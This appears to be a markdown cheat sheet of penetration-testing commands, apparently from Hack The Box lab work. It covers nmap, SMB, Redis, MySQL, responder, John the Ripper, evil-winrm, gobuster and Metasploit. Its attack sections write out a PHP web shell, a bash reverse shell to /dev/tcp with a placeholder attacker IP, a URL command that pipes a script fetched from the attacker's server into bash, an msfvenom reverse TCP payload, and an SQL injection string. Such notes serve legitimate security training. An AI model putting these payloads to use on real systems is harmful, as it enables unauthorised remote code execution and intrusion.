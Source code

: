 ###Pen-testing Tips and Tools

##`sudo` Exploitation

To get all commands that can be run with `sudo`:
sudo -l

It can be exploited with `less` to gain shell access.

##`nmap` (Network Mapper)

To probe open ports and check their service/version:
nmap -sV {ip}


To check all ports:
nmap -p- {ip}


To perform OS detection:
nmap -O {ip}


##`telnet`

Connect to a server using Telnet:
telnet {ip}


##`ftp`

Connect to a server using FTP. You can connect without an account by using the username "anonymous":
ftp {ip}


##`smbclient`

Used to connect to Windows environments over SMB/CIFS.

To list all available shares:
smbclient -L {ip}


To connect to a specific share:
smbclient {ip}/share


##`redis-cli`

Used to connect to a Redis database.

To access a remote Redis server:
redis-cli -h {ip} -p {port}


Some useful commands:
- `SELECT 0`: Select index database.
- `DBSIZE`: Get the size of the database.
- `KEYS *`: Show all keys.
- `GET {key}`: Show the content of a specific key.

##`dirb`

A tool for scanning HTTP pages. You can specify a wordlist to discover directories and files on a website.
dirb {url} /usr/share/wordlist


##SQL Injection

Exploiting SQL databases through unsanitized input.
- Example: `admin'#` to comment out the rest of the SQL query.

##`mysql` and `MariaDB`

To connect to SQL databases:
mysql -h {ip} -u {user}


Some useful SQL commands:
- `SHOW DATABASES;`
- `USE {database};`
- `SELECT * FROM {table};`

##File Inclusion Vulnerability

Exploiting PHP scripts that include files from URLs without proper sanitization.

##`responder`

A tool for LLMNR, NBT-NS, and MDNS poisoning techniques, which involve intercepting and responding to network name resolution requests.

To run `responder`:
sudo responder -I tun0


You can use this to redirect or manipulate network traffic.

##`john` (John the Ripper)

A tool for cracking password hashes.

To crack a hash:
john hash.txt


You can also use a wordlist to crack the hash:
john -w=/usr/share/wordlist hash.txt


##`evil-winrm`

Exploit and control Windows machines remotely.
evil-winrm -i {ip} -u {user} -p {password}


This is particularly powerful with administrator access.

##`wappanalizer`

A Firefox extension to analyze the technology stack used by websites.

##`gobuster`

A fuzzer tool for finding domains and directories in URLs using wordlists.

To find subdomains:
gobuster vhost -u {domain} -w {wordlist} --append-domain


##`nc` (Netcat)

To listen for a reverse shell:
nc -lvnp {port}


##`awscli`

Used to interact with AWS servers, domains, and S3 buckets.

To execute commands on an endpoint:
aws --endpoint={url} {type} {command}


##Reverse Shell in AWS S3

If an AWS bucket is found, you can upload a script to execute commands on it.

1. Create a PHP script that executes commands:
echo '<?php system($_GET["cmd"]); ?>' > shell.php


2. Upload the script to the bucket:
aws --endpoint={url} s3 cp shell.php s3://thetoppers.htb


3. Create a reverse shell script and listen on your machine:
Reverse shell script
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1337 0>&1

##Netcat
nc -nvlp 1337


4. Launch a web server on your machine and visit the URL:
python3 -m http.server 8000
{url}/shell.php?cmd=curl%20<IP_ADDRESS>:8000/shell.sh|bash


##Metasploit

Set up a reverse TCP shell on a Windows MS-SQL server.

In MSFVenom, create a payload:
msfvenom -p windows/meterpreter/reverse_tcp LHOST={ip} -f exe -o payload.exe


In MSF6, use Metasploit:
use exploit/multi/handler
set payload /windows/meterpreter/reverse_tcp
setg LHOST {ip}
run


##Burp Suite

A tool to track all network and proxy traffic.

You can use the FoxyProxy extension to intercept and modify requests.

##Developer Mode

You can use the browser's developer tools to inspect and modify cookies.

##`wfuzz`

An HTTP request fuzzer that uses wordlists to replace and try different parameters.

Example with wordlist for file paths and parameters:
wfuzz -c -z file,/usr/share/wfuzz/wordlist/injection/SQL.txt -d “username=1&password=FUZZ” --hc 404 http://10.10.11.224:55555/FUZZ
